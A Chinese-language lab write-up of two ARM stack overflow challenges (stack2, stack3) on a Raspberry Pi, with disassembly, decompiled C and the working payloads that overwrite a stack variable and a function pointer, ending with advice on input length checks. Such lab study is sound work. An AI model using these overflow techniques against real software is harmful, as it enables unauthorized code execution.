 # arm栈溢出实验2

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python,IDA pro

### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。

## 实验步骤

### 【步骤】
#### stack2
先运行程序，可以发现程序主要从环境变量GREENIE读取用户输入数据。
```bash
pi@raspberrypi:~/ARM-challenges $ ./stack2
stack2: please set the GREENIE environment variable
pi@raspberrypi:~/ARM-challenges $ export GREENIE='hello'
pi@raspberrypi:~/ARM-challenges $ ./stack2
Try again, you got 0x00000000
```
```
pi@raspberrypi:~/ARM-challenges $ gdb stack2 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack2...(no debugging symbols found)...done.
gef> disass stack2
No symbol table is loaded.  Use the "file" command.
gef> disass main
Dump of assembler code for function main:
   0x000104e4 <+0>:	push	{r11, lr}
   0x000104e8 <+4>:	add	r11, sp, #4
   0x000104ec <+8>:	sub	sp, sp, #80	; 0x50
   0x000104f0 <+12>:	str	r0, [r11, #-80]	; 0x50
   0x000104f4 <+16>:	str	r1, [r11, #-84]	; 0x54
   0x000104f8 <+20>:	ldr	r0, [pc, #108]	; 0x1056c <main+136>
   0x000104fc <+24>:	bl	0x10374
   0x00010500 <+28>:	str	r0, [r11, #-8]
   0x00010504 <+32>:	ldr	r3, [r11, #-8]
   0x00010508 <+36>:	cmp	r3, #0
   0x0001050c <+40>:	bne	0x1051c <main+56>
   0x00010510 <+44>:	mov	r0, #1
   0x00010514 <+48>:	ldr	r1, [pc, #84]	; 0x10570 <main+140>
   0x00010518 <+52>:	bl	0x103a4
   0x0001051c <+56>:	mov	r3, #0
   0x00010520 <+60>:	str	r3, [r11, #-12]
   0x00010524 <+64>:	sub	r3, r11, #76	; 0x4c
   0x00010528 <+68>:	mov	r0, r3
   0x0001052c <+72>:	ldr	r1, [r11, #-8]
   0x00010530 <+76>:	bl	0x10368
   0x00010534 <+80>:	ldr	r3, [r11, #-12]
   0x00010538 <+84>:	ldr	r2, [pc, #52]	; 0x10574 <main+144>
   0x0001053c <+88>:	cmp	r3, r2
   0x00010540 <+92>:	bne	0x10550 <main+108>
   0x00010544 <+96>:	ldr	r0, [pc, #44]	; 0x10578 <main+148>
   0x00010548 <+100>:	bl	0x10380
   0x0001054c <+104>:	b	0x10560 <main+124>
   0x00010550 <+108>:	ldr	r3, [r11, #-12]
   0x00010554 <+112>:	ldr	r0, [pc, #32]	; 0x1057c <main+152>
   0x00010558 <+116>:	mov	r1, r3
   0x0001055c <+120>:	bl	0x1035c
   0x00010560 <+124>:	mov	r0, r3
   0x00010564 <+128>:	sub	sp, r11, #4
   0x00010568 <+132>:	pop	{r11, pc}
   0x0001056c <+136>:	strdeq	r0, [r1], -r4
   0x00010570 <+140>:	strdeq	r0, [r1], -r12
   0x00010574 <+144>:	stceq	13, cr0, [r10, #-40]	; 0xffffffd8
   0x00010578 <+148>:	andeq	r0, r1, r12, lsr #12
   0x0001057c <+152>:	andeq	r0, r1, r8, asr r6
End of assembler dump.
```
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到我们这里需要溢出GREENIE使得v5为218762506，通过计算0xC - 0x10 = 64，那么有
```bash
pi@raspberrypi:~/ARM-challenges $ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
pi@raspberrypi:~/ARM-challenges $ ./stack2
you have correctly modified the variable
```
#### stack3

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
其中有
```
0001047c <win>:
   1047c:	e92d4800 	push	{fp, lr}
   10480:	e28db004 	add	fp, sp, #4
   10484:	e59f0004 	ldr	r0, [pc, #4]	; 10490 <win+0x14>
   10488:	ebffffa5 	bl	10324 <puts@plt>
   1048c:	e8bd8800 	pop	{fp, pc}
   10490:	00010560 	.word	0x00010560
```
```
pi@raspberrypi:~/ARM-challenges $ strings stack3 -tx
    134 /lib/ld-linux-armhf.so.3
    239 libc.so.6
    243 gets
    248 puts
    24d abort
    253 printf
    25a __libc_start_main
    26c __gmon_start__
    27b GLIBC_2.4
    560 code flow successfully changed
    580 calling function pointer, jumping to 0x%08x
    6e0 GCC: (Raspbian 4.9.2-10) 4.9.2
```
所以我们只需要将程序跳转到执行win函数即可。
```
pi@raspberrypi:~/ARM-challenges $ python -c "print 'a'*64 + '\x7c\x04\x01\x00'" | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed

```
### 【总结】

这次实验通过栈溢出简单的熟悉了arm下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。
